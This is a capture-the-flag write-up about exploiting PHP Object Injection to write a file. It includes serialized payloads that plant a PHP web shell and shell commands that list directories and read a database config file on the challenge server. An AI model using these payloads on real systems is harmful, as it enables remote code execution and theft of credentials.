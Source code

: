 ```php
    fwrite($fd,$this->newContent);
    fclose($fd);
  } 
```
Looking at the code, you can see that when the destructor runs, it creates a file. After seeing this, I thought I should upload a web shell using PHP Object Injection.
```
O:11:"pageContent":2:{s:9:"file_name";s:10:"./abcd.php";s:10:"newContent";s:20:"<?php system("ls")?>";}
```
So, I just wrote a simple payload and sent it as above, but the file was not created well. So, mentality went out and did this and that, and suddenly `as3617` released PHP Object Injection PPT.<br><br>

Looking at this PPT, I learned that when a variable is defined as Private, Null Byte is attached to both sides of the variable.
```
O:11:"pageContent":2:{s:11:"file_name";s:10:"./abcd.php";s:12:"newContent";s:20:"<?php system("ls")?>";}
```
So, based on this, I wrote the payload again as above, but it didn't work well. So I couldn't solve the problem because of this.<br><br>

So, after the contest, I asked a person belonging to Defenit who was all over the web. It turns out that if the variable is defined as private, you need to reference the variable like \x00classname\x00variable.
```
O:11:"pageContent":2:{s:22:"�pageContent�file_name";s:15:"data/pyburp.php";s:23:"�pageContent�newContent";s:15:"<?=`$_GET[x]`?>";}
```
So, finally, I wrote the payload as above.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%207.29.00.png?raw=true)
When I uploaded the webshell and accessed the file, I was able to confirm that the webshell was uploaded well.
```
http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=ls ~/
output => ctfx

http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=ls ~/ctfx
output => composer.json composer.lock htdocs include install writable

http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=ls ~/ctfx/include
output => Config.php cache.inc.php captcha.inc.php config config_loader.inc.php constants.inc.php db.inc.php email.inc.php files.inc.php general.inc.php json.inc.php language layout mellivora.inc.php raceconditions.inc.php session.inc.php thirdparty two_factor_auth.inc.php xsrf.inc.php

http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=ls ~/ctfx/include/config
=> config.default.inc.php db.default.inc.php

http://challs.xmas.htsp.ro:3050/data/pyburp.php?x=cat ~/ctfx/include/config/db.default.inc.php
output => 
<?php

/**
 *
 * This file contains default configuration.
 *
 *        DO NOT MAKE CHANGES HERE
 *
 * Copy this file and name it "db.inc.php"
 * before making any changes. Any changes in
 * db.inc.php will override the default
 * config. It is also possible to override
 * configuration options using environment
 * variables. Environment variables override
```